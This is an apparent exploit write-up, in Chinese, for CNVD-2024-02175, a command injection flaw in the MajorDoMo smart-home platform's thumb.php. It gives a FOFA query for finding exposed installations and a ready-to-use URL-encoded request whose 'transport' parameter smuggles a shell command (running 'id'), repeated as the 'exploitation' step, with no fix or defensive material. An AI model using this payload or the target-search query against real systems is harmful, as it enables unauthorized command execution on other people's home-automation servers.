

# CNVD-2024-02175

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** MajorDoMo-thumb.php存在命令执行漏洞


## **漏洞描述**

MajorDoMo是MajorDoMo社区的一个开源DIY智能家居自动化平台。MajorDoMo 0662e5e之前版本存在安全漏洞，该漏洞源于文件thumb.php存在命令执行漏洞。

## **fofa搜索语句**

```bash
app="MajordomoSL"
```

## **POC**

```bash
/modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B
```



## 漏洞利用

```bash
/modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B
```

